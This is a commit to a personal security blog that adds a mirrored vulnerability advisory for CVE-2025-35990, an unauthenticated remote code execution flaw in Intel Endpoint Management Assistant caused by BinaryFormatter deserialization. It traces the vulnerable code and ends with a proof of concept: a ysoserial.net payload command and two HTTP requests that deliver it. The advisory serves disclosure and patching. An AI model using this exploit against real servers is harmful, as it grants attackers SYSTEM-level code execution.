

Before and after one commit to emkay64/emkay64.github.io, a Jekyll site: the page built from _pages/cvelist.md, in a window 1280 px wide and 900 px high, scrolled down 1973 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; part of the change alters nothing that is shown.

Commit message:
CVE-2025-35990

````diff
--- a/_pages/cvelist.md
+++ b/_pages/cvelist.md
@@ -39,5 +39,5 @@ classes: wide
 | TBD | TBD | Admin By Request | Authentication Bypass |
 | TBD | TBD | OpenVPN | Local Privilege Escalation |
 | TBD | TBD | OpenVPN | Local Privilege Escalation |
+| [CVE-2025-35990](https://www.cve.org/CVERecord?id=CVE-2025-35990) | Windows Server | Intel | [Endpoint Management Assistant Unauthenticated Remote Code Execution](https://labs.reversec.com/advisories/2026/06/intel-endpoint-management-assistant-unauthenticated-remote-code-execution) |
 | TBD | Windows Server | Intel | Unauthenticated Remote Code Execution |
-| TBD | Windows Server | Intel | Unauthenticated Remote Code Execution |
--- /dev/null
+++ b/_posts/2026-06-16-CVE-2025-35990-intel-endpoint-management-assistant-unauthenticated-remote-code-execution.md
@@ -0,0 +1,217 @@
+---
+title:  "CVE-2025-35990: Intel Endpoint Management Assistant Unauthenticated Remote Code Execution"
+categories: Windows
+classes: wide
+---
+
+> This post is a mirror of the original advisory published on [Reversec Labs](https://labs.reversec.com/advisories/2026/06/intel-endpoint-management-assistant-unauthenticated-remote-code-execution).
+
+Intel Endpoint Management Assistant (EMA) versions prior to 1.14.5 are vulnerable to unauthenticated remote code execution through insecure .NET `BinaryFormatter` deserialization.
+
+| Detail | Value |
+|--------|-------|
+| **CVE** | CVE-2025-35990 |
+| **Severity** | High |
+| **Affected Versions** | Intel EMA < 1.14.5 |
+| **Vulnerability Type** | Remote Code Execution |
+| **Author** | Max Keasley |
+| **Published** | 16 Jun 2026 |
+
+## BinaryFormatter Deserialization
+
+.NET's `BinaryFormatter` does not validate incoming data, making it a prime target for remote code execution vulnerabilities in applications that accept untrusted data. Microsoft has publicly warned that `BinaryFormatter` is insecure and cannot be made secure.
+
+## Vulnerability Overview
+
+The Intel EMA `EMAAjaxServer.exe` service listens on multiple ports and exposes two unauthenticated routes that ultimately converge at a `BinaryFormatter.Deserialize()` sink. Both routes accept attacker-controlled input that flows through a routing cookie decode and AES-GCM decryption path before reaching the vulnerable deserialization call.
+
+### Route 1: Port 80/443 via IIS
+
+A GET request to `/ajax/MeshR2TX/redirection` with the following requirements:
+
+- URL path must match `/MeshR2TX/redirection`
+- URL segments must exceed 2
+- `RC` query parameter containing a base64-encoded payload prefixed with `MRC`
+
+### Route 2: Port 8084 Direct Access
+
+A GET request to port 8084 with the following requirements:
+
+- Request path `/mesh-rlogin-digest`
+- `MeshR2TX` cookie containing an `MRC`-prefixed serialized payload
+
+Both routes converge at the same deserialization sink, bypassing authentication mechanisms entirely.
+
+## Technical Analysis
+
+### CentralAjaxServer.ProcessContext
+
+The `ProcessContext` method in `CentralAjaxServer` checks the request path and dispatches to `ProcessMeshR2TxForRedirection` when the path starts with `/MeshR2TX/redirection` and has more than 2 URL segments:
+
+```csharp
+private void ProcessContext(HttpListenerContext context)
+//[...SNIP...]
+            if (
+                text3.StartsWith("/MeshR2TX/redirection") &&
+                context.Request.Url.Segments.Length > 2
+            ){
+                this._processContextAmt.ProcessMeshR2TxForRedirection(this, context, flag);
+                return;
+//[...SNIP...]
+```
+
+### ProcessMeshR2TxForRedirection
+
+The `RC` query parameter is extracted and passed to `CheckRoutingCookieAndUser` without any authentication checks:
+
+```csharp
+public void ProcessMeshR2TxForRedirection(CentralAjaxServer centralAjaxServer, HttpListenerContext context, bool hasAjaxInPath) {
+	string text = context.Request.QueryString["RC"];
+	Guid guid;
+	RoutingCookie routingCookie;
+	if (
+            !this._processContextUtility.CheckRoutingCookieAndUser(centralAjaxServer, context, text, false, out guid, out routingCookie)
+        )
+//[...SNIP...]
+```
+
+### CheckRoutingCookieAndUser
+
+The encrypted routing cookie value is passed directly to `RoutingCookie.DecodeRoutingCookie` using the server's routing key:
+
+```csharp
+public bool CheckRoutingCookieAndUser(CentralAjaxServer centralAjaxServer, HttpListenerContext context, string encryptedRoutingCookie, bool isForWsman, out Guid userId, out RoutingCookie routingCookie) {
+	userId = Guid.Empty;
+	routingCookie = null;
+	if (string.IsNullOrWhiteSpace(encryptedRoutingCookie)) {
+		string text = this.CreateInternalWsmanErrorMessage("Encrypted routing cookie is not available.", isForWsman, ProcessContextUtility.InternalWsmanErrorCode.RoutingCookieNotAvailable);
+		centralAjaxServer.Debug(SoftwareManager.EventSeverity.Error, text, null);
+		centralAjaxServer.FailHttpContextTracking(context, 400, text, true);
+		return false;
+	}
+	routingCookie = RoutingCookie.DecodeRoutingCookie(centralAjaxServer.ServerSettings.RoutingKey, encryptedRoutingCookie);
+//[...SNIP...]
+```
+
+### DecodeRoutingCookie / DecodeRoutingCookieEx
+
+`DecodeRoutingCookie` calls `DecodeRoutingCookieEx`, which verifies the `MRC` prefix, strips it, base64-decodes the remainder, and passes the resulting bytes to `DecryptMessage`:
+
+```csharp
+public static RoutingCookie DecodeRoutingCookie(string key, string msg) {
+	return RoutingCookie.DecodeRoutingCookieEx(key, msg, true);
+}
+
+public static RoutingCookie DecodeRoutingCookieEx(string key, string msg, bool clockcheck) {
+	byte[] array = RoutingCookie.DecodeRoutingCookieEx(key, msg);
+//[...SNIP...]
+```
+
+```csharp
+private static byte[] DecodeRoutingCookieEx(string key, string msg) {
+	byte[] array;
+	try {
+		if (msg == null || msg.Length < 5 || !msg.StartsWith("MRC")) {
+			array = null;
+		}
+		else {
+			msg = MeshUtils.UrlUnEscapeBase64(msg);
+			byte[] array2 = null;
+			try {
+				array2 = Convert.FromBase64String(msg.Substring(3));
+			}
+			catch (Exception ex) {
+				MeshLogger.Log(MeshLogger.Message.Exception, "Unable to decode Routing Cookie", "", "", 1, ex);
+			}
+			if (array2 == null || array2.Length < 20) {
+				array = null;
+			}
+			else {
+				array = RoutingCookie.DecryptMessage(key, array2);
+//[...SNIP...]
+```
+
+### DecryptMessage / AESDecrypt
+
+`DecryptMessage` delegates to `AesGcmEncryption.Decrypt`, which initializes AES encryption with the server key and calls `AESDecrypt`. The `AESDecrypt` method contains the vulnerable `BinaryFormatter.Deserialize()` call:
+
+```csharp
+public static byte[] DecryptMessage(string key, byte[] msg) {
+	return ((IAesGcmEncryption)new AesGcmEncryption()).Decrypt(msg, key);
+}
+```
+
+```csharp
+public byte[] Decrypt(byte[] plainText, string key) {
+	IAuthenticatedAESCryptoHelper authenticatedAESCryptoHelper = new AuthenticatedAESCryptoHelper();
+	if (string.IsNullOrEmpty(key)) {
+		return null;
+	}
+	authenticatedAESCryptoHelper.InitializeAESEncryption(key);
+	OperationResult operationResult = authenticatedAESCryptoHelper.AESDecrypt(plainText, null);
+//[...SNIP...]
+```
+
+```csharp
+public OperationResult AESDecrypt(byte[] cipher, byte[] authenticatedData)
+//[...SNIP...]
+                    AesGcmProtectedBlob aesGcmProtectedBlob = (AesGcmProtectedBlob)new BinaryFormatter().Deserialize(memoryStream);
+//[...SNIP...]
+```
+
+### Route 2: ProcessRedirectionForLoginUnderDigestAuth
+
+The second route via port 8084 at `/mesh-rlogin-digest` extracts the payload from the `MeshR2TX` cookie and passes it through the same `DecodeRoutingCookie` chain:
+
+```csharp
+public void ProcessRedirectionForLoginUnderDigestAuth(CentralAjaxServer centralAjaxServer, HttpListenerContext context) {
+	string urlArgValue = this._processContextUtility.GetUrlArgValue(context.Request.Url.PathAndQuery, "&UR=");
+	string routingKey = centralAjaxServer.ServerSettings.RoutingKey;
+	Cookie cookie = context.Request.Cookies["MeshR2TX"];
+	if (RoutingCookie.DecodeRoutingCookie(routingKey, (cookie != null) ? cookie.Value : null) == null)
+//[...SNIP...]
+```
+
+## Proof of Concept
+
+Payload generation using ysoserial.net:
+
+```
+ysoserial.exe -f BinaryFormatter -g ClaimsIdentity -o base64 -c "cmd.exe /c whoami > C:\Reversec.txt"
+```
+
+### Port 80/443
+
+```
+GET /ajax/MeshR2TX/redirection?RC=MRC<payload> HTTP/2
+Host: TARGET.LOCAL
+```
+
+### Port 8084
+
+```
+GET /mesh-rlogin-digest HTTP/2
+Host: TARGET.LOCAL:8084
+Cookie: MeshR2TX=MRC<payload>
+```
+
+Successful exploitation results in code execution as the service account, typically `NT AUTHORITY\SYSTEM`.
+
+## Remediation
+
+Update to Intel EMA version [1.14.5.0](https://www.intel.com/content/www/us/en/download/19449/intel-endpoint-management-assistant-intel-ema.html) or later.
+
+## Disclosure Timeline
+
+| Date | Activity |
+|------|----------|
+| 17 Nov 2025 | Initial disclosure to Intel |
+| 1 Dec 2025 | Case number assigned |
+| 25 Feb 2026 | Follow-up communication |
+| 11 Mar 2026 | CVE-2025-35990 reserved, scheduled for 12 May publication |
+| 12 May 2026 | CVE-2025-35990 published |
+| 16 Jun 2026 | Technical analysis released |
+
+## Impact
+
+Unauthenticated Remote Code Execution
````
